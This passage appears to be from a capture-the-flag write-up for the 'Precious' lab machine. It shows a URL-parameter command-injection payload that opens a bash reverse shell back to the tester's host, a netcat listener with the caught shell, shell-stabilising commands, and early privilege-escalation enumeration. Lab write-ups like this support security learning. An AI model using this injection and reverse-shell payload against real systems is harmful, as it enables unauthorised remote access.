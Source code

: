 ### reverse shell

next getting a reverse shell:
first setting up a listener with `nc -lvnp 4444`

and execute the shell with this url parameter

```shell
url=http://10.10.14.207/%2520$(bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.207/4444+0>%261')
```

```shell
listening on [any] 4444 ...
connect to [10.10.14.207] from (UNKNOWN) [10.10.11.189] 47766
bash: cannot set terminal process group (679): Inappropriate ioctl for device
bash: no job control in this shell
ruby@precious:/var/www/pdfapp$
```

shell stabalizing:

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm

CTRL+Z

stty raw -echo; fg
```

## Privilege Escalation

we found the `user.txt` in `henrys` home folder but we have no permission to open it.

```shell
ruby@precious:/home/henry$ ls -la
total 24
drwxr-xr-x 2 henry henry 4096 Oct 26 08:28 .
drwxr-xr-x 4 root  root  4096 Oct 26 08:28 ..
lrwxrwxrwx 1 root  root     9 Sep 26 05:04 .bash_history -> /dev/null
-rw-r--r-- 1 henry henry  220 Sep 26 04:40 .bash_logout
-rw-r--r-- 1 henry henry 3526 Sep 26 04:40 .bashrc
-rw-r--r-- 1 henry henry  807 Sep 26 04:40 .profile
-rw-r----- 1 root  henry   33 Jan  2 15:43 user.txt
ruby@precious:/home/henry$ cat user.txt
cat: user.txt: Permission denied
```

the other home directory of `ruby` had a few more folders to search through.

```shell
ruby@precious:/home$ cd ruby/
ruby@precious:~$ ls -la
total 28
drwxr-xr-x 4 ruby ruby 4096 Jan  2 15:50 .
drwxr-xr-x 4 root root 4096 Oct 26 08:28 ..
lrwxrwxrwx 1 root root    9 Oct 26 07:53 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26 08:28 .bundle
drwxr-xr-x 3 ruby ruby 4096 Jan  2 15:50 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
```
